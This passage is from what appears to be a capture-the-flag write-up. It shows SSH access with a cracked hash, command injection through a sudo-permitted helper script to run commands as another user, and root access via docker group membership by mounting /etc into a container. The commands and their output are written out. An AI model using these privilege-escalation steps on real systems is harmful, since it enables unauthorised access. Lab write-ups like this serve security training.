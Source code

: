 I decoded the hash and tried to login using SSH. I was successful with the user anurodh.

Once on the machine I did 'sudo -l' to check if there was a quick win to priv esc. I also checked the users home directory for the user flag, however it was not there.

```highlight
anurodh@ubuntu:/dev/shm$ sudo -l
Matching Defaults entries for anurodh on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User anurodh may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

No priv esc to root however I could run a script owned by apaar. 

```highlight
anurodh@ubuntu:/$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: aurick   
Hello user! I am aurick,  Please enter your message: id    
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
Thank you for your precious time!
anurodh@ubuntu:/$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: aurick
Hello user! I am aurick,  Please enter your message: cat /home/apaar/local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qREDACTED}
Thank you for your precious time!
anurodh@ubuntu:/$ 
```

I was able to run commands as apaar, when I first got a foot hold one the machine I found a local.txt file in apaar's home directory but was unable to read it. However now I can run commands as the apaar user so I used cat to read the file and got the user flag.

### Priv Esc

I did some enumeration using the apaar user by using the helpline.sh script and the command 'bash -i' to get shell on the box as the apaar user however I didnt find much so I went back to the anurodh user and ran linpeas.

anurodh is a memeber of the docker group, this [blog](https://www.hackingarticles.in/docker-privilege-escalation/) details how a machine can be exploited via docker. 

```highlight
anurodh@ubuntu:/dev/shm$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        6 months ago        5.57MB
hello-world         latest              bf756fb1ae65        11 months ago       13.3kB
anurodh@ubuntu:/dev/shm$ docker run -v /etc/:/mnt -it alpine
/ # cd /mnt
/mnt # cd root
/mnt/root # cat proof.txt 


                                        {ROOT-FLAG: w18gfpn9xehsgd3tovhREDACTED}


Congratulations! You have successfully completed the challenge.
```
